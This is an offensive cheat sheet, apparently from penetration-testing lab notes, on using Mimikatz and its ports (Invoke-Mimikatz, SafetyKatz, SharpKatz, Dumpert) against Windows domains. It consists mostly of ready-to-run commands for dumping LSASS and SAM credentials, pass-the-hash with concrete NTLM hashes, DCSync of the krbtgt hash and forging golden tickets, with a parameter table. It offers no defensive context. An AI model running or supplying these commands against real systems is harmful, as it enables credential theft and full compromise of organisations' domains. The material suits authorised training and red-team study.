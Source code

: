 ## # `Initial Command` -

Mimikatz modules facilitate password hash extraction from the `Local Security Authority Subsystem (LSASS)` process memory where they are cached.

Since `LSASS` is a privileged process running under the `SYSTEM` user, we must ==launch mimikatz from an administrative command prompt==. To extract password hashes, we must first execute two commands. The first is `privilege::debug`, which enables the `SeDebugPrivilge` access right required to tamper with another process. If this commands fails, mimikatz was most likely not executed with administrative privileges.

It’s important to understand that LSASS is a SYSTEM process, which means it has even higher privileges than mimikatz running with administrative privileges. To address this, we can use the `token::elevate` command to ==elevate the security token from high integrity (administrator) to SYSTEM integrity==. If mimikatz is launched from a SYSTEM shell, this step is not required.

```poershell
C:\> mimikatz.exe
mimikatz # privilege::debug
Privilege '20' OK 
mimikatz # token::elevate
```

## # `Dumping the SAM database using mimikatz` -

```powershell
mimikatz # lsadump::sam
```

## # `Dumping credentials of all logged-on users` -

```powershell
mimikatz # sekurlsa::logonpasswords
```

## # `Pass The Hash` -

You can use pass the hash technique with mimikatz to spawn powershell :

```powershell
mimikatz # sekurlsa::pth /user:henry.vinson /domain:htb.local /dc:htb.local /ntlm:e53d87d42adaa3ca32bdb34a876cbffb /command:powershell
```


## # `Invoke-Mimikatz` -

Invoke-Mimikatz, is a PowerShell port of Mimikatz. Using the code from ReflectivePEInjection, mimikatz is loaded reflectively into the memory. All the functions of mimikatz could be used from this script.The script needs administrative privileges for dumping credentials from local machine.

• Dump credentials on a local machine using Mimikatz :

```powershell
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```

• Using SafetyKatz (Minidump of lsass and PELoader to run Mimikatz) :

```powershell
SafetyKatz.exe "sekurlsa::ekeys"
```

• Dump credentials Using SharpKatz (C# port of some of Mimikatz functionality) :

```powershell
SharpKatz.exe --Command ekeys
```

• Dump credentials using Dumpert (Direct System Calls and API unhooking) :

```powershell
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump
```

• Over Pass the hash (OPTH) generate tokens from hashes or keys. Needs elevation (Run as administrator) :

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256: /run:powershell.exe"'
```

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe"'
```

```powershell
SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256: /run:cmd.exe" "exit"
```

The above commands starts a PowerShell session with a logon type 9 (same as runas /netonly).

- To extract credentials from the DC without code execution on it, we can use DCSync.To use the DCSync feature for getting krbtgt hash execute the below command with DA privileges for us domain :

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
```

```powershell
SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```

By default, Domain Admins privileges are required to run DCSync.

- Dump all the hashes on the domain controller(privileges of DA) :

```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

## # `Golden Ticket` -

• Execute mimikatz on DC as DA to get krbtgt hash :

```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' – Computername dcorp-dc
```

• On any machine :

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

| Invoke-Mimikatz -Command   |   |
|-----------------------------|--------------------------------------------------------------------|
| kerberos::golden|Name of the module                                                             |
| /User:Administrator |Username for which the TGT is generated                                     |
| /domain:dollarcorp.moneycorp.local |Domain FQDN                                                  |
| /sid:S-1-5-21-1874506631-3219952063-538504511 | SID of the domain                                |                                                                
| /krbtgt:ff46a9d8bd66c6efd77603da26796f35 | NTLM (RC4) hash of the krbtgt account. Use /aes128 and /aes256 for using AES keys which is more silent.|
| /id:500 /groups:512 | Optional User RID (default 500) and Group default 513 512 520 518 519) |
| /ptt or /ticket  |  Injects the ticket in current PowerShell process - no need to save the ticket on disk ; Saves the ticket to a file for later use|
| /startoffset:0 | Optional when the ticket is available (default 0 - right now) in minutes. Use negative for a ticket available from past and a larger number for future.|
| /endin:600 | Optional ticket lifetime (default is 10 years) in minutes. The default AD setting is 10 hours = 600 minutes|
| /renewmax:10080 | Optional ticket lifetime with renewal (default is 10 years) in minutes. The default AD setting is 7 days = 100800 |

• To use the DCSync feature for getting krbtgt hash execute the below command with DA privileges (or a user that has replication rights on the domain object) :

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

